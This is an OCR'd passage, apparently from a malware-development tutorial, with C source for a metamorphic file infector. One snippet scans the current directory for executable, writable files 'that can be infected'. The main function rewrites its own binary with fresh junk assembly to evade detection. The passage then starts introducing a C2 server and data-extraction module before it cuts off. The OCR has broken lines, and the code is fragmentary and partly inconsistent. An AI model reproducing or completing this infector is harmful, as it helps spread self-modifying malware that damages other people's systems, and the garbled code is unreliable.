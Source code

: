 ```c
struct dirent *ent;

// Open directory stream
dir = opendir ("./"); 
if (dir != NULL) {

// Iterate over all files in the
current directory
while ((ent = readdir (dir)) != NULL) {
// Select regular files only, not
DT_DIR (directories) nor DT_LNK (links)
if (ent->d_type == DT_REG)
{
// Select executable and writable
files that can be infected
if (access(ent->d_name, X_OK) == 0 &&
access(ent->d_name, W_OK) == 0)
{
// Ignore the executable that is
running the program
if (strstr(exclude, ent->d_name) !=
NULL)
{
original_executable = ent->d_name; 
	}
}

```
Main Function
Finally we have the main function. 
This just calls the functions 
previously described. We read in the 
code, replace the junk, then write it 
out again. The argv[0] argument 
contains the application filename.

```c
int main(int argc, char* argv[]) {

JUNK_ASM;

// Load this file into memory
uint8_t *file_data = NULL;
uint32_t file_len;

load_file(&file_data, &file_len,
argv[0]);

// Replace the existing junk ASM
sequences with new ones
replace_junk(file_data, file_len);

write_file(file_data, file_len,
argv[0]);


free(file_data);
return EXIT_SUCCESS;

```
The C2 Server
The data extraction module (dext) runs 
on a well defined port (which can be 
modified at will) and will start an 